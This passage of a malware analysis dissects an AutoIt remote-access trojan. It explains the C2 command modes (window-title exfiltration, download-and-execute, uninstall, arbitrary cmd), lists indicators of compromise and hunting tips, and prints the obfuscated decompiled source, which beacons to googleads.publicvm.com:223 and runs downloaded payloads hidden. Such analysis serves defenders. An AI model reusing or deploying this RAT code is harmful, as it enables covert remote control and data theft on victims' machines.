- The C2 server is statically set to googleads.publicvm.com:223
- Should be no encryption

<br/>

#### C2 Command 2: Received "null" from C2

```
		Case $messageReceivedFromTCPRecv = ""
			$int_0 += 1
			Sleep(1000)
			If $int_0 = 8 Then
				$int_0 = 0
				// Get the full title of the current active window
				$string_""2 = WinGetTitle("")
				If $string_""2 <> $string_"" Then
				    // Exfiltrate the current Window name "ac|ActiveWindowName"
					C2Exfiltrate("ac0LIONW0 & $string_""2)
				EndIf
				$string_"" = $string_""2
				$string_""2 = ""
			EndIf
```

- Get the full title of the current active window

<br/>

#### C2 Command 3: Download mode

The C2 may respond with an actual operational command and the current script will perform the corresponding action:

```
			$splitted_MsgTCPRecv_by_0LIONW0 = StringSplit($messageReceivedFromTCPRecv, "0LIONW0", 1)
			If $splitted_MsgTCPRecv_by_0LIONW0[0] > 0 Then
				Select 
				    // [0: Action_Number - do something if >0] 0LIONW0 [1: Action - DL] 0LIONW0 [2] 0LIONW0 [3]
					//  DL mode:   " 1 | DL | Download_Source | Dest_FileName"  --> Download this file to %TEMP%\FILENAME --> Then use cmd.exe to execute

```

- The script will extract the C2 operation command by splitting the respond payload with "0LIONW0".
    - 1st portion: Have to be non-zero
    - 2nd portion: C2 operator - either `DL`, `un` or `cmd`

```
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "DL"
						InetGet($splitted_MsgTCPRecv_by_0LIONW0[2], @TempDir & aString("\") & $splitted_MsgTCPRecv_by_0LIONW0[3], 1)
						If FileExists(@TempDir & aString("\") & $splitted_MsgTCPRecv_by_0LIONW0[3]) Then
							ShellExecute("cmd.exe | /c start %temp%\" & $splitted_MsgTCPRecv_by_0LIONW0[3], "", "", @SW_HIDE)
							C2Exfiltrate("MSG0LIONW0Executed As" & $splitted_MsgTCPRecv_by_0LIONW0[3])
						Else
							C2Exfiltrate("MSG0LIONW0Download ERR")
						EndIf
```

The first mode will be the **Download Mode (DL)**. A download URL and local destination filename will be provided in the C2 response. The script will extract them, download and execute the downloaded file in the `%TEMP%`. 

If successful, the script will send a message of `MSG0LIONW0Executed As <FILENAME>` to the C2 server. If not, it sends `MSG0LIONW0Download ERR`.

<br/>

#### C2 Command 4: un mode

This mode will try to revert persistence and firewall allow entry done by the script.

```
					//  un mode: Uninstall the C2 and persistence components
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "un"
						Uninstall_undoPersistence_UnsetFirewall()
```

The function invoked:

```
Func Uninstall_undoPersistence_UnsetFirewall():
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "microsoftsecurity)
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana")
	RegDelete("HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "MicrosoftOffice")
	RegDelete("HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "MicrosoftOffice")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftCMD.lnk")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftCMD.lnk")
	RegDelete("HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftSecurity.exe")
	RegDelete("HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "MicrosoftSecurity.exe")
	ShellExecute("netsh", "firewall delete allowedprogram "@AutoItExe", "", "", @SW_HIDE)
	ShellExecute(@ComSpec, "/k ping 0 & del "@AutoItExe" & exit", "", "", @SW_HIDE)
	C2Exfiltrate("MSG0LIONW0 Uninstall !!")
	Exit
```

- Also note the C2 callback `MSG0LIONW0 Uninstall !!`.

<br/>

#### C2 Command 5: cmd mode

```
					Case $splitted_MsgTCPRecv_by_0LIONW0[1] = "cmd"
						If ShellExecute("cmd.exe", $splitted_MsgTCPRecv_by_0LIONW0[2], "", "", @SW_HIDE) = 1 Then
							C2Exfiltrate("MSG0LIONW0" & "Executed cmd.exe" & $splitted_MsgTCPRecv_by_0LIONW0[2])
						Else
							C2Exfiltrate("MSG0LIONW0Execute ERR cmd.exe" & $splitted_MsgTCPRecv_by_0LIONW0[2])
						EndIf
```

- This mode executed an arbitrary command provided by the C2 server
- If the execution is successful, the script returns a C2 message `MSG0LIONW0Executed cmd.exe <CommandGiven>`; if not, it returns a similar message with `ERR`

<br/>

---

## Indicators of Compromise (IOC)

**Network indicators:**

- `googleads.publicvm.com:223`
- Any TCP connection payloads with the keyword `0LIONW0` or `zeus`
    - If exists, you may use the analyzed C2 operators to track what had been performed further

**File indicators:**

- The malicious AutoIt script `Microsoft.a3x`: 
    - MD5: `36E63B8E86188B92252804C3DB2407F4`
- The existence of the directory or files: 
    - `C:\Microsoft`
    - `C:\GoogleChrome\GoogleChrome.a3x`
    - `C:\GoogleChrome\GoogleChrome.exe`
    - `C:\GoogleChrome\GoogleChrome.lnk`
    - `C:\GoogleChrome\My Pictures.lnk`
    - `C:\GoogleChrome\GoogleUpdate.lnk`
    - `C:\GoogleChrome\My Music.lnk`
    - `C:\GoogleChrome\WindowsUpdate.lnk`
    - `C:\GoogleChrome\Mozilla.exe`
    - `C:\GoogleChrome\Mozilla.vbs`
    - `C:\GoogleChrome\Mozilla.vb`
    - `C:\MozillaFirefox\GoogleChrome.a3x`
    - `C:\MozillaFirefox\GoogleChrome.exe`
    - `C:\MozillaFirefox\GoogleChrome.lnk`
    - `C:\MozillaFirefox\My Pictures.lnk`
    - `C:\MozillaFirefox\GoogleUpdate.lnk`
    - `C:\MozillaFirefox\My Music.lnk`
    - `C:\MozillaFirefox\WindowsUpdate.lnk`
    - `C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\Microsoft Security.lnk`

**Registry:**

- "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "JavaUpdate"
- "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeUpdate"
- "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "NewJavaInstall"
- "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "AdopeFlash"
- "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk"
- "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "WindowsUpdate.lnk"
- "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe"
- "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "GoogleChrome.exe"
- "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome"
- "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Google Chrome"
 "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Security" with a value contains "MicrosoftCMD.lnk"
- "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run", "Microsoft Office" with a value contains "MicrosoftUpdate.lnk"
- "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "Cortana" with a value contains "MicrosoftUpdate.lnk"
- "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run", "HDAudio" with a value contains "MicrosoftSecurity.exe /AutoIt3ExecuteScript"
- "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run", "PrintDriver" with a value contains "MicrosoftSecurity.exe /AutoIt3ExecuteScript"

**Hunting:**

1. Look for history of AutoIt3 script execution with the keyword  argument `AutoIt3ExecuteScript` or `.a3x`
2. Look for firewall modification to allow `MicrosoftSecurity.exe` using `netsh`
3. Look for any network connection to tcp:223
4. Look for suspicious WMI query `Select * from AntiVirusProduct` from uncommon program
5. Look for any anti-virus alert related to `AutoIt`

<br/>

---

## References

### Decompiled script

```
Global $dcznysrlakdhbtfenvsppoltilqrjiifqrjqpmwwwxpoovwmcgzf = ChrW(108 - 5) & ChrW(13 + 98) & ChrW(157 - 46) & "g" & ChrW(108) & ChrW(149 - 48) & ChrW(11 + 86) & String("d") & ChrW(115) & ChrW(80 - 34) & ChrW(25 + 87) & "u" & ChrW(98) & ChrW(154 - 46) & ChrW(38 + 67) & ChrW(146 - 47) & ChrW(16 + 102) & String("m") & ChrW(67 - 21) & "c" & ChrW(111) & ChrW(45 + 64)
Global $arapqeencactbyqjiooaywsrywfooepbidezquajhjtwvwmqemdn = 223
Global $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo = "C" & ChrW(28 + 30) & "\" & "M" & ChrW(149 - 44) & ChrW(111 - 12) & "r" & "o" & "s" & ChrW(111) & "f" & ChrW(6 + 110) & ChrW(83) & ChrW(101) & ChrW(99) & ChrW(128 - 11) & "r" & "i" & ChrW(125 - 9) & ChrW(121)
Global $toypgraanpjlfwxjscarpmliszehlbquruimbscebztnxymoybci = ChrW(40 + 37) & String("i") & ChrW(108 - 9) & ChrW(114) & "o" & ChrW(115) & String("o") & ChrW(121 - 19) & "t" & ChrW(101 - 34) & ChrW(108 - 31) & ChrW(68) & ChrW(47 + -1) & "l" & String("n") & ChrW(2 + 105)
Global $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan = String("M") & ChrW(16 + 89) & ChrW(38 + 61) & ChrW(32 + 82) & ChrW(18 + 93) & ChrW(8 + 107) & ChrW(161 - 50) & ChrW(102) & String("t")
Global $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat = String("M") & ChrW(12 + 93) & ChrW(50 + 49) & ChrW(114) & ChrW(8 + 103) & ChrW(115) & "o" & "f" & ChrW(20 + 96) & ChrW(32) & ChrW(83) & ChrW(101) & String("c") & "u" & ChrW(7 + 107) & ChrW(26 + 79) & ChrW(31 + 85) & ChrW(6 + 115)
Global $oolbadsjbfwdjkintqtwpzzxmffhgfnmbxvzjmvtsknhhelokmhf = ChrW(79 - 2) & ChrW(27 + 78) & ChrW(25 + 74) & String("r") & ChrW(127 - 16) & "s" & ChrW(111) & ChrW(29 + 73) & ChrW(116) & ChrW(83) & ChrW(116 - 15) & ChrW(99) & ChrW(117) & ChrW(136 - 22) & ChrW(128 - 23) & ChrW(145 - 29) & ChrW(5 + 116) & String(ChrW(47 + -1)) & ChrW(101) & "x" & "e"
Global $deepoootxldvrjbmoidhvydelsqitqvtyhjxsgluxbtihspxbzyd = 4
Global $hakcazdwxfzioixjzetjxkktduwtdsgvrsmyxgwscpwrbmryvfyx = ChrW(48 + 70) & "b" & ChrW(115)
Local $fqfxoqyfdjreydrxvymtibggnsrscyxxuipampighposwrrxvucw = ChrW(138 - 48) & ChrW(128 - 27) & ChrW(145 - 28) & ChrW(16 + 99)
$fqfxoqyfdjreydrxvymtibggnsrscyxxuipampighposwrrxvucw &= "_" & Hex(DriveGetSerial(@HomeDrive))
Global $tepdkyjxzgcfkvjqnqlgpfmrmmlwzswhwceqtlqoflhbljiagble = ChrW(67 - 19) & ChrW(46) & ChrW(63 - 11) & ChrW(151 - 31)
If FileExists($tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo & ChrW(47) & $pgyhdqwhnsqlzouknkgzzuppsxkumpjjyhflwbjmwusjiinjdcan & ChrW(50 - 4) & ChrW(139 - 31) & ChrW(110) & ChrW(107)) Then
	$tepdkyjxzgcfkvjqnqlgpfmrmmlwzswhwceqtlqoflhbljiagble = ChrW(48) & ChrW(46) & String("4") & ChrW(120) & ChrW(32) & ChrW(85) & ChrW(46 + 69) & ChrW(31 + 67)
EndIf
$ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk = ChrW(110 - 33) & ChrW(17 + 88) & ChrW(99) & String("r") & ChrW(160 - 49) & ChrW(115) & String("o") & ChrW(116 - 14) & ChrW(136 - 20) & ChrW(1 + 45) & String("a") & "3" & ChrW(120)
$ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 0
$nipcbxpmhqnfnobrddekcozeadfwlaztuiqspsvpwsoldvrkyemu = ChrW(13) & ChrW(10)
$vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp = String("0") & ChrW(126 - 50) & String("I") & ChrW(129 - 50) & ChrW(78) & "W" & String("0")
$cbngwgavixmwtvsnxajiavvlpgrrtsuwgjbnponnpnwsjbmwpgkj = 0
$ffohfcsqoibpdqpjtfxjmvtmybbouvcmikrautgmwxyflgpsmcci = -1
If @ScriptDir <> $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo AND $deepoootxldvrjbmoidhvydelsqitqvtyhjxsgluxbtihspxbzyd = 4 Then
	If $hakcazdwxfzioixjzetjxkktduwtdsgvrsmyxgwscpwrbmryvfyx = ChrW(125 - 24) & ChrW(15 + 105) & String("e") Then
		FileCopy(@AutoItExe, $jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx, 9)
		Run($jbwklcjcaewtgpgszopzykmpwnarnhcrstdgofpsjelsafyvywtx)
	Else
		DirCopy(@ScriptDir, $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo, 1)
		ShellExecute($tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo & String(String("\")) & ChrW(28 + 49) & String("i") & ChrW(20 + 79) & String("r") & ChrW(41 + 70) & String("s") & ChrW(111) & ChrW(140 - 38) & ChrW(117 - 1) & ChrW(83) & "e" & String("c") & "u" & String("r") & ChrW(105) & String("t") & ChrW(30 + 91) & ChrW(47 + -1) & ChrW(104 - 3) & String("x") & ChrW(138 - 37), ChrW(57 - 10) & String("A") & ChrW(167 - 50) & ChrW(152 - 36) & ChrW(16 + 95) & ChrW(3 + 70) & ChrW(124 - 8) & String("3") & "E" & "x" & String("e") & ChrW(35 + 64) & String("u") & ChrW(142 - 26) & "e" & ChrW(113 - 30) & ChrW(17 + 82) & ChrW(118 - 4) & ChrW(142 - 37) & "p" & "t" & String(ChrW(48 - 16)) & $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo & String("\") & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk, "", "", @SW_HIDE)
		ShellExecute(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", String("/") & ChrW(147 - 48) & ChrW(74 - 42) & ChrW(19 + 96) & ChrW(12 + 104) & ChrW(19 + 78) & String("r") & String("t") & ChrW(21 + 11) & $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo & ChrW(37 + 10) & String("M") & ChrW(34 + 71) & ChrW(139 - 40) & ChrW(13 + 101) & ChrW(111) & String("s") & ChrW(150 - 39) & "f" & ChrW(14 + 102) & String("S") & "e" & String("c") & ChrW(117) & ChrW(17 + 97) & "i" & ChrW(18 + 98) & "y" & ChrW(47 + -1) & ChrW(150 - 49) & String("x") & ChrW(11 + 90) & ChrW(47 + -15) & $tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo & ChrW(47) & $ivfnryrxlmwhjvjiruxaaxafykecdkqygsyawqyvstbsozrqazjk, "", "", @SW_HIDE)
	EndIf
	FileSetAttrib($tzgdyjrtaoyylzlxtqtoodspdwwakojbbbijxbbhdgkslvltlpxo, ChrW(43) & ChrW(111 - 29) & ChrW(83) & ChrW(13 + 59))
	Exit
EndIf
$mdkyphoybroscebnlbesywpuytnrnesroeepieqgsrqsptqxdkkw = ""
$rbypnqzvtwjxyxdxymfhjxzhgvdecqndtvznepbrfunuhstsqsyq = -1
mnmurofuotaxronjkijvbjrqkrmevcwwmbsmjcmjzcqxplscwnzh()
pdopzmetzkuzbrqhzoeumbhwurckkvjpcugoopapsrcaphhetqfi()
rblzbaqmbvoikeqerwerhbazuhagqctwscfbbxkckkhjwjxexbay()
mrlkjwkdvkbssnhhsekfkmqktxuoqlzwcmwldaxjfksijngrvuuv("A" & ChrW(121 - 45) & ChrW(43 + 33))
lfvcwvjzbaxkwdlqvabiwzwzssazyiijcolgfponslgyfebnachv()
$fdltbsjrmutdjfdbxosklncqkdzmbmoiswypifmmekekbjmbpqub = 4
$ynfqbwixswozfjkmgouqcgebirpbrxxkqmkerinlwotiveeryavb = ""
$xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs = ""
$exbpklgnydwjfptcqufilhvvcdfomohcfjmeuwcbkhoyhuksefzc = ChrW(78 - 7) & String("o") & "o" & "g" & "l" & ChrW(131 - 30) & String("C") & "h" & "r" & "o" & ChrW(140 - 31) & ChrW(150 - 49) & ChrW(42 + 4) & ChrW(101) & String("x") & ChrW(109 - 8)
Sleep(@AutoItPID / 10)
If _singleton($exbpklgnydwjfptcqufilhvvcdfomohcfjmeuwcbkhoyhuksefzc, 1) = 0 Then
	Exit
EndIf
While 1
	$fdltbsjrmutdjfdbxosklncqkdzmbmoiswypifmmekekbjmbpqub += 1
	If $fdltbsjrmutdjfdbxosklncqkdzmbmoiswypifmmekekbjmbpqub = 5 Then
		$fdltbsjrmutdjfdbxosklncqkdzmbmoiswypifmmekekbjmbpqub = 0
		pdopzmetzkuzbrqhzoeumbhwurckkvjpcugoopapsrcaphhetqfi()
		lfvcwvjzbaxkwdlqvabiwzwzssazyiijcolgfponslgyfebnachv()
	EndIf
	If @error Then
	EndIf
	$ejhwafnhgrbjvudvcpjsrdxdsyogslkgoexwcpeojvwtgecnrpqp = vgmovrvjjuidbgwhmbqjnpauyhhmjxquqasvirrwuqfxizyilzss()
	If @error Then
	EndIf
	Select 
		Case $ejhwafnhgrbjvudvcpjsrdxdsyogslkgoexwcpeojvwtgecnrpqp = -1 OR $ejeluzphspscvwarxilawchgwhrytnceafuxnnfxaqbeazwqzatr = 1
			Sleep(3000)
			axhehxxafrgmhqherstchiuehcfrjrmjdqigprnjmsljwafbkpcu()
			yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk(ChrW(108) & "v" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & $fqfxoqyfdjreydrxvymtibggnsrscyxxuipampighposwrrxvucw & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & @ComputerName & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & @UserName & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & "" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & @OSVersion & ChrW(48 - 16) & @OSArch & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & $tepdkyjxzgcfkvjqnqlgpfmrmmlwzswhwceqtlqoflhbljiagble & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & av() & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & "")
		Case $ejhwafnhgrbjvudvcpjsrdxdsyogslkgoexwcpeojvwtgecnrpqp = ""
			$cbngwgavixmwtvsnxajiavvlpgrrtsuwgjbnponnpnwsjbmwpgkj += 1
			Sleep(1000)
			If $cbngwgavixmwtvsnxajiavvlpgrrtsuwgjbnponnpnwsjbmwpgkj = 8 Then
				$cbngwgavixmwtvsnxajiavvlpgrrtsuwgjbnponnpnwsjbmwpgkj = 0
				$xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs = WinGetTitle("")
				If $xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs <> $ynfqbwixswozfjkmgouqcgebirpbrxxkqmkerinlwotiveeryavb Then
					yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("a" & ChrW(99) & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & $xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs)
				EndIf
				$ynfqbwixswozfjkmgouqcgebirpbrxxkqmkerinlwotiveeryavb = $xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs
				$xdztjehjhhgvzeitzfvyahtnmvednwcrbvnnnrvmbefqiyjrwkrs = ""
			EndIf
		Case $ejhwafnhgrbjvudvcpjsrdxdsyogslkgoexwcpeojvwtgecnrpqp <> ""
			$wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj = StringSplit($ejhwafnhgrbjvudvcpjsrdxdsyogslkgoexwcpeojvwtgecnrpqp, String("0") & ChrW(126 - 50) & String("I") & ChrW(129 - 50) & ChrW(78) & "W" & String("0"), 1)
			If $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[0] > 0 Then
				Select 
					Case $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[1] = "D" & ChrW(76)
						InetGet($wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[2], @TempDir & String("\") & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[3], 1)
						If FileExists(@TempDir & String("\") & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[3]) Then
							ShellExecute(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", "/" & String("c") & ChrW(32) & ChrW(115) & "t" & String("a") & ChrW(14 + 100) & ChrW(158 - 42) & ChrW(79 - 47) & ChrW(30 + 7) & ChrW(138 - 22) & ChrW(45 + 56) & ChrW(109) & ChrW(112) & ChrW(42 + -5) & ChrW(12 + 80) & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[3], "", "", @SW_HIDE)
							yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & String("E") & String("x") & ChrW(151 - 50) & ChrW(115 - 16) & ChrW(158 - 41) & String("t") & String("e") & "d" & ChrW(30 + 2) & ChrW(17 + 48) & ChrW(124 - 9) & ChrW(32) & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[3])
						Else
							yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & ChrW(11 + 57) & ChrW(116 - 5) & "w" & ChrW(31 + 79) & ChrW(108) & ChrW(134 - 23) & String("a") & ChrW(122 - 22) & " " & "E" & ChrW(110 - 28) & ChrW(10 + 72))
						EndIf
					Case $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[1] = "u" & ChrW(121 - 11)
						nsrtpcgrkqsngglhzyojitacnvnmrnzfavwexewfsrijqiykpuzx()
					Case $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[1] = ChrW(36 + 63) & "m" & "d"
						If ShellExecute(ChrW(99) & ChrW(109) & ChrW(100) & ChrW(47 + -1) & ChrW(1 + 100) & ChrW(148 - 28) & "e", $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[2], "", "", @SW_HIDE) = 1 Then
							yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & "E" & String("x") & "e" & String("c") & String("u") & ChrW(33 + 83) & ChrW(101) & ChrW(100) & String(" ") & "c" & "m" & ChrW(128 - 28) & ChrW(46) & ChrW(115 - 14) & "x" & ChrW(130 - 29) & String(" ") & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[2])
						Else
							yutherqpkizldomanazujuowkemziyaieyvuglsqadmmqsuumyvk("M" & ChrW(83) & "G" & $vjpajkcyrsbgqukdyialinmjzobeluyfndwkuoieqwyfrhuiknnp & ChrW(69) & "x" & ChrW(33 + 68) & ChrW(144 - 45) & String("u") & ChrW(141 - 25) & ChrW(101) & String(" ") & ChrW(8 + 61) & ChrW(82) & String("R") & ChrW(32) & ChrW(143 - 44) & ChrW(112 - 3) & ChrW(105 - 5) & ChrW(46) & String("e") & ChrW(161 - 41) & ChrW(101) & ChrW(26 + 6) & $wfkbldcbrgpuhuvrwhtmltkwhewpvzpdvujiuvkyncxceclljlpj[2])
						EndIf
				EndSelect
			EndIf
	EndSelect
WEnd

Func nsrtpcgrkqsngglhzyojitacnvnmrnzfavwexewfsrijqiykpuzx()
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat)
	RegDelete(String("H") & ChrW(75) & ChrW(13 + 56) & String("Y") & String("_") & "C" & ChrW(85) & ChrW(35 + 47) & String("R") & String("E") & String("N") & ChrW(16 + 68) & ChrW(95) & "U" & ChrW(83) & ChrW(69) & ChrW(95 - 13) & ChrW(14 + 78) & "S" & ChrW(22 + 89) & ChrW(11 + 91) & ChrW(116) & "w" & ChrW(34 + 63) & ChrW(114) & ChrW(102 - 1) & "\" & "M" & String("i") & "c" & "r" & "o" & ChrW(115) & ChrW(111) & String("f") & ChrW(15 + 101) & "\" & String("W") & ChrW(105) & "n" & ChrW(22 + 78) & "o" & String("w") & "s" & "\" & ChrW(67) & ChrW(117) & String("r") & "r" & "e" & "n" & String("t") & "V" & ChrW(101) & ChrW(119 - 5) & ChrW(157 - 42) & ChrW(17 + 88) & "o" & String("n") & ChrW(92) & ChrW(82) & ChrW(24 + 93) & String("n"), $vcjuqioffbuxjhmrijmlbucfcfhjjcrkovnvyluomdhvzuybwwat)
	RegDelete(String("H") & ChrW(112 - 37) & ChrW(69) & String("Y") & "_" & ChrW(102 - 26) & ChrW(89 - 10) & ChrW(105 - 38) & String("A") & ChrW(105 - 29) & ChrW(95) & "M" & "A" & "C" & ChrW(23 + 49) & ChrW(107 - 34) & ChrW(22 + 56) & ChrW(69) & String("\") & ChrW(98 - 15) & ChrW(19 + 92) & "f" & ChrW(19 + 97) & ChrW(6 + 113) & String("a") & ChrW(17 + 97) & "e" & ChrW(123 - 31) & "M" & ChrW(18 + 87) & String("c") & ChrW(114) & ChrW(159 - 48) & ChrW(115) & String("o") & String("f") & ChrW(135 - 19) & ChrW(92) & ChrW(49 + 38) & ChrW(144 - 39) & "n" & ChrW(32 + 68) & ChrW(111) & ChrW(27 + 92) & ChrW(115) & ChrW(92) & ChrW(21 + 46) & "u" & ChrW(26 + 88) & ChrW(27 + 87) & ChrW(11 + 90) & ChrW(110) & ChrW(18 + 98) & ChrW(39 + 47) & "e" & "r" & ChrW(157 - 42) & "i" & ChrW(122 - 11) & ChrW(131 - 21) & ChrW(22 + 70) & String("R") & ChrW(138 - 21) & ChrW(127 - 17), ChrW(10 + 70) & ChrW(8 + 106) & ChrW(105) & String("n") & ChrW(135 - 19) & "D" & ChrW(114) & "i" & ChrW(118) & String("e") & ChrW(114))
